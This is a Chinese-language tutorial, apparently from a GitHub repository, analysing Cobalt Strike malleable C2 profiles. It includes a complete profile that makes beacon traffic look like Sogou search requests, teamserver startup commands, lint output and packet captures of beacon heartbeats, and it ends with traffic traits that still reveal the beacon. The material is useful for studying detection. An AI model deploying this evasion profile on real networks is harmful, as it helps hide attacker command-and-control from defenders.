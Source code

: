 # Cobalt Strike之profile分析
### CS使用profile启动
```bash
#先对profile进行测试
./c2lint xxx.profile
```
![](./img/3.png)
```bash
#启动cs
./teamserver ip password xxx.profile
```
后面步骤与正常使用CS一致

### CS中经常使用profile进行流量的伪装 伪装成看起来正常的web流量 从而骗过各种检测
下面编写一个简单的profile进行测试
```
set sleeptime "3000";#设置心跳时间(单位ms)
set jitter "10";#设置心跳抖动
set useragent "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36";#User-Agent
#get请求的伪装(get请求通常为受控阶段)
http-get{
    set uri "/hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "Referer" "https://www.qq.com/";

        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";
        output {
        print;
        }
    }

}
#post请求伪装(post请求通常为返回结果阶段)
http-post{
    set uri "/hdq=&query=1";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8";
        header "Host" "www.sogou.com";
        header "X-Requested-With" "XMLHttpRequest";
        header "Referer" "https://www.qq.com/";


        id {
            parameter "aleen";
        }

        output {
            base64;
            print;
        }

    }

    server {
        header "Server" "nginx";
        header "X-Log-Ext" "antiforbidden=1&exp_1=1&exp_2=1";

        output {
        print;
        }
    }

}
```
profile测试
```
http-get
--------
GET /hdq=sogou-wsse-3f7bcd0b3ea82268&ie=utf-8&query=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
Referer: https://www.qq.com/
Cookie: session=9LXD/C/CPhSjq7H+SlZ+3w==
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 64

.$.~.._zw....ui.<.UgV.\..E.bx.G*.......lJ.."]..;.....d.&.*^..QpJ

http-post
---------
POST /hdq=&query=1?aleen=22049 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Host: www.sogou.com
X-Requested-With: XMLHttpRequest
Referer: https://www.qq.com/
Content-Length: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

Uv8rlFoIMtjHLDsbOm1TJA==

HTTP/1.1 200 OK
Server: nginx
X-Log-Ext: antiforbidden=1&exp_1=1&exp_2=1
Content-Length: 0

```
抓取流量(这里使用hashdump演示)
分为连个阶段:
>1:client向server发送心跳包 server向client发送执行的命令

![](./img/1.png)
>2:client将结果返回给server server一般返回content为空

![](./img/2.png)

###心跳包的抓取
client上线后会定时向server发送一个心跳包
![](./img/4.png)
心跳包的发送时间与profile中的设置相关，上面设置为3s一次，抖动为10%</br>
这样大约每过约2.7~3.3s就会发送一次心跳包
![](./img/5.png)
心跳包中的大部分字段相相同 不同的地方是cookie 也就是我们设置用来伪装的地方
心跳包只是client链接server 所以server不需要返回 一般情况下content为空
###Tricks
这里尽管使用了profile进行伪装，仍可以发现:
>1:在1阶段中client请求字段位于URI或者cookie中 server返回的数据非常大(含有相应的操作指令)</br>
>2:在2阶段中client返回结果位于content中 server通常不返回数据(server只需接收返回结果而无需响应)</br>
>3:流量中有大量时间较为规律、内容相类似的数据包且server返回数据为空或较为固定的数据包
